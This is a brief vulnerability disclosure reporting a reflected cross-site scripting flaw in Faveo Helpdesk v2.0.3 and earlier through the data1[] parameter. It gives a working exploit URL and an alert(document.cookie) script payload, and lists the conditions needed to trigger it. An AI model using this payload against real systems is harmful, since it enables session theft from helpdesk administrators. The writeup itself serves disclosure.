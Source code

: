 Vulnerability: Reflected XSS via data1[]

URL: ```https://192.168.124.130/get-merge-tickets/0?data1[]=10&data1[]=1'><script>alert(document.cookie)</script>```

Payload: ```'><script>alert(document.cookie)</script>```

Action to trigger: None

Note: The merge values need to be valid

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data1[]


https://github.com/ladybirdweb/faveo-helpdesk


![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_XSS_via_data1%5B%5D.gif)
